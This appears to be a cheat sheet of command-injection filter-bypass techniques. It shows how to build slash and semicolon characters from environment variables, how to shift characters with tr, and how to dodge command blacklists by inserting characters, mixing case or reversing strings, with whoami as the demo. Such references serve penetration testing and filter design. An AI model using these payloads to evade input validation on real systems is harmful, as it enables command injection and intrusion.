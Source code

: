 #### Will be replaced with `/`
```Shell
${PATH:0:1}
```

#### Will be replaced with `;`
```Shell
${LS_COLORS:10:1}
```

#### Shift character by one (`[` -> `\`)
```Shell
$(tr '!-}' '"-~'<<<[) 	
```

### Blacklisted Commands Bypass

#### Character Insertion
`'` or `"`
Total must be even

`$@` or `\`
Linux only

```cmd.exe
^
```
Windows only (CMD)

#### Case Manipulation
```Shell
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```
Execute command regardless of cases

```Shell
$(a="WhOaMi";printf %s "${a,,}")
```
Another variation of the technique

```cmd.exe
WhoAmi
```
Simply send the character with odd cases

#### Reversed Commands
```Shell
echo 'whoami' | rev
```
Reverse a string

```Shell
$(rev<<<'imaohw')
```
Execute reversed command

```PowerShell
"whoami"[-1..-20] -join ''
```
Reverse a string
